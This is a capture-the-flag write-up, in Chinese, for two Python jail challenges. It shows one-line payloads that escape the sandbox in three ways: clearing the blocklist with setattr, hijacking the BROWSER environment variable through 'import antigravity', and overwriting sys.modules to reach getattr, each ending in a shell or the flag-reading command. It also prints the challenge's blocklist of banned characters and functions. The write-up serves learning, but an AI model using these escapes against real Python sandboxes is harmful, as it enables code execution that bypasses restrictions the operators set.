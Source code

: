 # Pyjail

```python
blocklist = ['.', '\\', '[', ']', '{', '}',':']
DISABLE_FUNCTIONS = ["getattr", "eval", "exec", "breakpoint", "lambda", "help"]
DISABLE_FUNCTIONS = {func: None for func in DISABLE_FUNCTIONS}
```

flag设置权限了不能直接读，给了⼀个readflag，执行`/readflag giveflag`即可

本题可以多行执行，清空`blocklist`即可

```sh
welcome!
>>> setattr(__import__('__main__'),'blocklist','')
None
>>> __import__('os').system('sh')
sh: 0: can't access tty; job control turned off
$ ls
jail.py readflag.c
$ ls /
bin ctf etc home lib media opt readflag run srv tmp var
boot dev flag kctf lib64 mnt proc root sbin sys usr
$ /readflag giveflag
idek{9eece9b4de9380bc3a41777a8884c185}
```

# Pyjail Revenge

```python
blocklist = ['.', '\\', '[', ']', '{', '}',':', "blocklist", "globals",
"compile"]
```

黑名单多了`globals`、`blacklist`、`compile`

同时只能一行输入，不能多次输入

## antigravity hijack BROWSER env

`import antigravity`会打开一个漫画网页

```python
import webbrowser
import hashlib
webbrowser.open("https://xkcd.com/353/")
```

`webbrowser#open`调用`register_standard_browsers()`

```python
def open(url, new=0, autoraise=True):
    """Display url using the default browser.
    If possible, open url in a location determined by new.
    - 0: the same browser window (the default).
    - 1: a new browser window.
    - 2: a new browser page ("tab").
    If possible, autoraise raises the window (the default) or not.
    """
    if _tryorder is None:
    	with _lock:
    		if _tryorder is None:
   				 register_standard_browsers()
    for name in _tryorder:
    	browser = get(name)
    	if browser.open(url, new, autoraise):
   			return True
    return False
```

继续跟进发现其检查了`os.environ`的`BROWSER`环境变量

```python
if "BROWSER" in os.environ:
    userchoices = os.environ["BROWSER"].split(os.pathsep)
    userchoices.reverse()

    # Treat choices in same way as if passed into get() but do register
    # and prepend to _tryorder
    for cmdline in userchoices:
        if cmdline != '':
            cmd = _synthesize(cmdline, preferred=True)
            if cmd[1] is None:
                register(cmdline, None, GenericBrowser(cmdline), preferred=True)
```

`GenericBrowser`可以运⾏cmdline

```python
class GenericBrowser(BaseBrowser):
    """Class for all browsers started with a command
       and without remote functionality."""

    def __init__(self, name):
        if isinstance(name, str):
            self.name = name
            self.args = ["%s"]
        else:
            # name should be a list with arguments
            self.name = name[0]
            self.args = name[1:]
        self.basename = os.path.basename(self.name)

    def open(self, url, new=0, autoraise=True):
        sys.audit("webbrowser.open", url)
        cmdline = [self.name] + [arg.replace("%s", url)
                                 for arg in self.args]
        try:
            if sys.platform[:3] == 'win':
                p = subprocess.Popen(cmdline)
            else:
                p = subprocess.Popen(cmdline, close_fds=True)
            return not p.wait()
        except OSError:
            return False
```

payload：

```python
__import__('antigravity',setattr(__import__('os'),'environ',dict(BROWSER='/bin/
sh -c "/readflag giveflag" #%s')))
```

## recover sys.modules to validate getattr

由于`__import__`在加载时会先找`sys.modules`

可以先通过`setattr`覆盖`sys.modules`为`__builtins__`，这样`__import__`即可调用`getattr`

通过`getattr`来加载`os.system`

```python
setattr(__import__('sys'),'modules',__builtins__) or __import__('getattr')
(__import__('os'),'system')('sh')
```

